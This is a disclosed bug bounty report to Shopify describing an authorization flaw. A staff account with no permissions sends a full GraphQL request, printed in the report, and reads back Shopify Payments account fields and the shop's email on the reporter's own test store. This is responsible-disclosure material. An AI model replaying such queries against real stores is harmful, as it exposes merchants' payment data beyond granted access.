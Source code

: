 # Using GraphQL, STAFF with NO explicit permissions on Store can retrieve Shopify Payments Balance.

## Report Details
- **Report ID**: 417170
- **URL**: https://hackerone.com/reports/417170
- **State**: Closed
- **Severity**: low
- **Submitted**: 2018-10-01T20:34:12.427Z
- **Disclosed**: 2019-04-04T03:09:12.607Z

## Reporter
- **Username**: h13-
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Hi,

I am reporting this because it looks like a authorization bug in GraphQL. A staff member having no explicit permissions on a Shopify Store may be able to  retrieve the Current balances in all currencies for the account for Shopify Payments.

__Steps__

1. STAFF account is created and assigned NO permissions on a Shop by Owner/Admin
2. STAFF then logs in to shop. Notice that STAFF is not having any access to menus/ HOME section.
{F353946}

3. Now STAFF triggers the below GraphQL request via a burp proxy.

```
POST /admin/api/graphql HTTP/1.1
Host: vir444.myshopify.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
content-type: application/json
x-shopify-web-force-proxy: 1
origin: https://vir444.myshopify.com
Content-Length: 2999
Cookies: [....]

{"operationName":"HomeIndex","variables":{"localTime":"22:59"},"query":"query HomeIndex($localTime: DateTime!) {\n  staffMember {\n    id\n    privateData {\n      activityFeed(first: 3) {\n        edges {\n          ...ActivityFeed\n          __typename\n        }\n        __typename\n      }\n      capital {\n        ... on HomeCapitalSummary {\n          ...CapitalFeature\n          __typename\n        }\n        __typename\n      }\n      greeting(clientDatetime: $localTime) {\n        body\n        heading\n        __typename\n      }\n      notifications {\n        ... on HomeNotification {\n          ...Notifications\n          __typename\n        }\n        __typename\n      }\n      onboarding {\n        ... on HomeOnboarding {\n          ...Onboarding\n          __typename\n        }\n        __typename\n      }\n      tasks {\n        ... on HomeTask {\n          ...OrderTasks\n          __typename\n        }\n        __typename\n      }\n      __typename\n    }\n    __typename\n  }\n  shop {\n    betaOnboarding: beta(name: \"home_onboarding_web\")\n    betaSlice: beta(name: \"home_slice\")\n    email\n    features {\n      storefront\n      __typename\n    }\n    id\n    shopifyPaymentsAccount {\n      balance {\n        ... on MoneyV2 {\n          ...Balance\n          __typename\n        }\n        __typename\n      }\n      payouts(first: 2, reverse: true) {\n        edges {\n          ... on ShopifyPaymentsPayoutEdge {\n            ...Payout\n            __typename\n          }\n          __typename\n        }\n        __typename\n      }\n      __typename\n    }\n    __typename\n  }\n}\n\nfragment ActivityFeed on ActivityEdge {\n  cursor\n  node {\n    author\n    createdAt\n    messages\n    topic\n    attributed\n    __typename\n  }\n  __typename\n}\n\nfragment CapitalFeature on HomeCapitalSummary {\n  balanceProgress\n  balanceRemaining {\n    amount\n    currencyCode\n    __typename\n  }\n  paybackAmount {\n    amount\n    currencyCode\n    __typename\n  }\n  __typename\n}\n\nfragment Balance on MoneyV2 {\n  amount\n  currencyCode\n  __typename\n}\n\nfragment Payout on ShopifyPaymentsPayoutEdge {\n  node {\n    gross {\n      amount\n      currencyCode\n      __typename\n    }\n    id\n    issuedAt\n    status\n    __typename\n  }\n  __typename\n}\n\nfragment Onboarding on HomeOnboarding {\n  feedbackOptions\n  heading\n  tagName\n  tasks {\n    buttons {\n      text\n      url\n      __typename\n    }\n    completed\n    iconKey\n    image {\n      originalSrc\n      __typename\n    }\n    label\n    message\n    title\n    __typename\n  }\n  __typename\n}\n\nfragment OrderTasks on HomeTask {\n  badge {\n    status\n    title\n    __typename\n  }\n  handle\n  icon {\n    originalSrc\n    __typename\n  }\n  title\n  url\n  __typename\n}\n\nfragment Notifications on HomeNotification {\n  button {\n    text\n    url\n    __typename\n  }\n  dismissible\n  dismissMessage\n  id\n  message\n  severity\n  title\n  __typename\n}\n"}

```

Observer the response

```
{
    "data": {
        "shop": {
            "betaSlice": true, 
            "__typename": "Shop", 
            "features": {
                "__typename": "ShopFeatures", 
                "storefront": true
            }, 
            "shopifyPaymentsAccount": {
                "__typename": "ShopifyPaymentsAccount", 
                "payouts": {
                    "__typename": "ShopifyPaymentsPayoutConnection", 
                    "edges": []
                }, 
                "balance": []
            }, 
            "betaOnboarding": true, 
            "id": "gid://shopify/Shop/5282726001", 
            "email": "a@gmail.com"
        }, 
```
{F353947}

## Impact

There are 2 issues which I noticed here,

1. The response indicated that the store is using `shopifyPayments` as means of settling payouts between customers, merchants & store owners. This information should have been hidden since the STAFF running the GraphQL query had no `settings` permission assigned to his role. This means STAFF must ideally not know what is/are the payment providers which are applicable for the store.

2. The response indicates an array called `balances` which I think is the place holder to retrieve the Current balances in all currencies for the account used for Shopify Payments on the store. Since my store did not do any transactions, the array is left empty. I suspect that had there been any Shopify Payments transactions in store, the balance of those will be reflected back into the `balances` parameter in the above GraphQL response. I believe payments/billing related information must not be visible/displayed to the STAFF especially when he has `no- explicit` permission assigned on the store.

## Attachments
- s1.JPG
- s2.JPG
